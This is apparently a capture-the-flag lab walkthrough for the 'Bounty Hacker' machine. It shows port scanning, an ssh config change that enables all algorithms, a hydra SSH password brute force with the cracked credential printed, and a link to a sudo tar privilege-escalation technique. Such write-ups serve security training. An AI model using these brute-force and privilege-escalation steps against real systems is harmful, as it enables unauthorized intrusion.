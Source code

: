 ```yaml
---

title: Walkthrough - Bounty Hacker - Linux/Tar/PrivESC/Security
published: true
---
```


You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

![0xskar](/assets/cowboybebop01.jpg)

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

* * *

## Find open ports on the machine

- ``sudo nmap -Pn -sS -p- -T4 10.10.208.214 -vvv``

```shell

```

* * *

## Who wrote the task list? 

- connect to ftp and download ``locks.txt`` and ``tasks.txt``

* * *

## What service can you bruteforce with the text file found?

So I was having issues brute forcing the SSH with hydra due to a ``kex error : no match for method server host key algo: server [ssh-rsa,rsa-sha2-512,rsa-sha2-256,ecdsa-sha2-nistp256,ssh-ed25519], client [ssh-dss]`` The following code block will fix all login negotaiation errors.

```shell
{
echo -n 'Ciphers '
ssh -Q cipher | tr '\n' ',' | sed -e 's/,$//'; echo

echo -n 'MACs '
ssh -Q mac | tr '\n' ',' | sed -e 's/,$//'; echo

echo -n 'HostKeyAlgorithms '
ssh -Q key | tr '\n' ',' | sed -e 's/,$//'; echo

echo -n 'KexAlgorithms '
ssh -Q kex | tr '\n' ',' | sed -e 's/,$//'; echo

} >> ~/.ssh/config
```

We are now able to run ``hydra -l lin -P locks.txt 10.10.208.214 ssh -t 4`` and get our ssh password.

```shell
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-09 10:32:21
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.208.214:22/
[22][ssh] host: 10.10.208.214   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-09 10:32:30
```

* * *

## user.txt

```shell
lin@bountyhacker:~/Desktop$ ls -las
total 12
4 drwxr-xr-x  2 lin lin 4096 Jun  7  2020 .
4 drwxr-xr-x 19 lin lin 4096 Jun  7  2020 ..
4 -rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt
lin@bountyhacker:~/Desktop$ pwd
/home/lin/Desktop
lin@bountyhacker:~/Desktop$ cat user.txt 
```

* * *

## root.txt

```shell
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Sorry, try again.
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Easy PrivESC - [https://gtfobins.github.io/gtfobins/tar/#sudo](https://gtfobins.github.io/gtfobins/tar/#sudo)

* * * 








